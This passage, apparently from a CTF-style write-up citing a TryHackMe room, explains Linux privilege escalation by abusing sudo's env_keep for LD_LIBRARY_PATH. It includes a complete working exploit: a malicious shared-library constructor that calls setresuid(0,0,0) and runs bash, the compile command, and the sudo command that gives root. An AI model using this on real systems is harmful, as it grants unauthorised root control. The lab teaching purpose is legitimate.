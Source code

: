 As we see `sudo -l` returned this line
```
env_keep+=LD_LIBRARY_PATH
```

`LD_LIBRARY_PATH` contains list of directories which search for shared libraries first

To exploit it, we need to find a library to overwrite.
```sh
$ ldd /usr/sbin/apache2
        linux-vdso.so.1 =>  (0x00007ffd7cb32000)
        libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007fe1c7227000)
        libaprutil-1.so.0 => /usr/lib/x86_64-linux-gnu/libaprutil-1.so.0 (0x00007fe1c7000000)
        libapr-1.so.0 => /usr/lib/x86_64-linux-gnu/libapr-1.so.0 (0x00007fe1c6dce000)
        libpthread.so.0 => /lib/x86_64-linux-gnu/libpthread.so.0 (0x00007fe1c6bb1000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fe1c67e7000)
        libcrypt.so.1 => /lib/x86_64-linux-gnu/libcrypt.so.1 (0x00007fe1c65af000)
        libexpat.so.1 => /lib/x86_64-linux-gnu/libexpat.so.1 (0x00007fe1c6386000)
        libuuid.so.1 => /lib/x86_64-linux-gnu/libuuid.so.1 (0x00007fe1c6181000)
        libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007fe1c5f7d000)
        /lib64/ld-linux-x86-64.so.2 (0x00007fe1c773c000)
```

I'm gonna use `libcrypt.so.1` - in `/tmp` create a file called `malicious.c`
```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

Then, we need to compile it into a shared library with that name, not like a typical C code.
```sh
$ gcc -o /tmp/libcrypt.so.1 -shared -fPIC /tmp/malicious.c
```

Then we have to execute that specific command, but while setting `LD_LIBRARY_PATH` to our malicious library location
```sh
$ sudo LD_LIBRARY_PATH=/tmp /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2

#
```

And boom! We have root

#### `LD_PRELOAD`

`LD_LIBRARY_PATH` is not the only dangerous `env_keep` option

There's another one as well
```sh
$ sudo -l
[sudo] password for saad: 
Matching Defaults entries for saad on m4lware:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User saad may run the following commands on m4lware:
    (root) /usr/bin/ping
```
(Source: [Creative box, THM](https://tryhackme.com/r/room/creative))
{: class="subtext" }